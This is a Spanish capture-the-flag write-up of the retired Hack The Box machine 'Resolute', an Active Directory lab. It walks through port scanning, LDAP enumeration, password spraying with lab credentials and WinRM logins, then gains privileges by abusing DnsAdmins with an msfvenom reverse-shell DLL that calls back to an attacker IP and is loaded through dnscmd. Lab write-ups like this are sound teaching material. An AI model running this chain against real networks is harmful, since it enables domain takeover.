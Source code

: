 # Resolute-HTB

Desarrollo de la VM MONTEVERDE de HACK THE BOX (HTB)

## 1. Configuración de la VM

- La VM se encuentra en estado de retirada de HTB
- Se debe activar la VM para poder usarla, se requiere una suscripción PREMIUM.

## 2. Escaneo de Puertos

```
# Nmap 7.92 scan initiated Sat Apr  2 10:32:21 2022 as: nmap -n -P0 --top-ports 5000 -sS -sC -vv -T5 -oA full 10.129.136.132
Warning: 10.129.136.132 giving up on port because retransmission cap hit (2).
Increasing send delay for 10.129.136.132 from 0 to 5 due to 733 out of 1831 dropped probes since last increase.
Nmap scan report for 10.129.136.132
Host is up, received user-set (0.35s latency).
Scanned at 2022-04-02 10:32:22 EDT for 172s
Not shown: 4954 closed tcp ports (reset)
PORT      STATE    SERVICE          REASON
53/tcp    open     domain           syn-ack ttl 127
88/tcp    open     kerberos-sec     syn-ack ttl 127
135/tcp   open     msrpc            syn-ack ttl 127
139/tcp   open     netbios-ssn      syn-ack ttl 127
389/tcp   open     ldap             syn-ack ttl 127
445/tcp   open     microsoft-ds     syn-ack ttl 127
464/tcp   open     kpasswd5         syn-ack ttl 127
593/tcp   open     http-rpc-epmap   syn-ack ttl 127
636/tcp   open     ldapssl          syn-ack ttl 127
3268/tcp  open     globalcatLDAP    syn-ack ttl 127
3269/tcp  open     globalcatLDAPssl syn-ack ttl 127
5985/tcp  open     wsman            syn-ack ttl 127
49927/tcp open     unknown          syn-ack ttl 127

Host script results:
|_clock-skew: mean: 2h27m01s, deviation: 4h02m30s, median: 7m00s
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2022-04-02T07:41:30-07:00
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 63774/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 20975/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 60972/udp): CLEAN (Failed to receive data)
|   Check 4 (port 33457/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-04-02T14:41:33
|_  start_date: 2022-04-02T14:27:05

```

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute1.jpg" width=80% />


## 3. Enumeración

- Podemos enumerar utilizando ENUM4LINUX o AUTORECON.

```
┌──(root㉿kali)-[~/HT/RESOLUTE]
└─# enum4linux -a -M -l -d 10.129.136.132 > enum4linux.txt    
```

- Identificamos usuarios del repositorio LDAP y encontramos una contraseña: Welcome123!

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute2.jpg" width=80% />

- También podemos enumerar los usuarios con LDAPSEARCH:

```
ldapsearch -x -b "dc=megabank,dc=local" -h 10.129.136.132 
```

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute3.jpg" width=80% />

## 4. Explotación

## 4.1. Cracking ONLINE

- Tenemos usuarios y una contraseña. Identificamos melanie:Welcome123!

```
┌──(root㉿kali)-[~/HT/RESOLUTE]
└─# crackmapexec smb 10.129.136.132 -u users.txt -p 'Welcome123!' --shares --pass-pol
```

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute4.jpg" width=80% />

- Nos conectamos a través de WINRM

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute5.jpg" width=80% />

- En la carpeta USERS, encontramos la carpeta RYAN. Es una pista, el usuario RYAN parece que juega algun rol en este CTF.

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute6.jpg" width=80% />


## 4.2. Enumerando carpetas

- Otra técnica es buscar carpetas que contengan información sensible.
- En el directorio C:\, hay una carpeta oculta con información sensible. Password: ryan Serv3r4Admin4cc123!


<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute7.jpg" width=80% />

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute8.jpg" width=80% />


## 4.3. Cracking ONLINE (2)

- Con la contraseña encontrada, probamos un nuevo acceso. Nuevo acceso: ryan:Serv3r4Admin4cc123!

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute9.jpg" width=80% />

- Nos conectamos a través de WINRM:

```
┌──(root㉿kali)-[~/HT/RESOLUTE]
└─# evil-winrm -i 10.129.136.132 -u ryan -p 'Serv3r4Admin4cc123!'   
```

<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute10.jpg" width=80% />


## 5. Elevando Privilegios

### 5.1. ABUSE DNSADMIN

- En la imagen superior vemos que el usuario RYAN pertenece al grupo DNSADMIN. Eso también es una pista.
- Existe un procedimiento ya conocido para expotar la vulnerabilidad:

* Construir una DLL maliciosa
* Inyectar la DLL maliciosa de manera remota, es decir, a través de SMB. Se puede realizar de manera local pero algún AV podría detectarlo.
* Reiniciar el servicio y se obtiene shell reversa.

https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise
https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2
http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html

- Creamos el DLL malicioso
```
┌──(root㉿kali)-[~/HT/RESOLUTE]
└─# msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.15 LPORT=8080 -f dll > evil.dll
```

- Levantamos un servidor SMB para compartir la carpeta
```
┌──(root㉿kali)-[~/HT/RESOLUTE]
└─# /usr/bin/impacket-smbserver share $(pwd)  
```

- En la víctima cargamos la librería DNS, detenemos el servicio y lo iniciamos de nuevo

```
*Evil-WinRM* PS C:\Users\ryan\Documents> dnscmd.exe /config /serverlevelplugindll \\10.10.16.15\share\evil.dll

Registry property serverlevelplugindll successfully reset.
Command completed successfully.

*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 3780
        FLAGS              :
```


- En KALI, levantamos el HANDLER y esperamos la conexión reversa:


<img src="https://github.com/El-Palomo/Resolute-HTB/blob/main/Resolute11.jpg" width=80% />




























































































